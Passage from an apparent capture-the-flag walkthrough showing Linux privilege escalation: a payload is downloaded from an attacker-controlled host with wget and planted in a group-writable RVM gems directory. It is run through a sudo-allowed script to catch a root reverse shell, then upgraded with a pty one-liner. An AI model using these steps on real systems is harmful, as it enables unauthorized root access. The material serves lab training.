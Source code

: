 `python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: lidia](https://img.shields.io/badge/Victim-lidia-64b5f6?logo=linux&logoColor=white)

`id`:
```
uid=1000(lidia) gid=1000(lidia) groups=1000(lidia),100(users),1002(rvm) ←
```

`ls -ld /usr/local/rvm/gems/ruby-3.1.0/bin`:
```
drwxrwsr-x 2 root rvm 4096 May 20 16:36 /usr/local/rvm/gems/ruby-3.1.0/bin ←
```

`cd /tmp`

`wget http://192.168.56.118/rails`:
```
--2024-10-07 12:46:02--  http://192.168.56.118/rails
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 190 [application/octet-stream]
Saving to: ‘rails’

rails               100%[===================>]     190  --.-KB/s    in 0s      

2024-10-07 12:46:02 (22.3 MB/s) - ‘rails’ saved [190/190] ←
```

`mv ./rails /usr/local/rvm/gems/ruby-3.1.0/bin`

`chmod 777 /usr/local/rvm/gems/ruby-3.1.0/bin/rails`

`sudo /usr/local/bin/rvm_rails.sh`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.133] 56222
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) groups=0(root),1002(rvm)
```
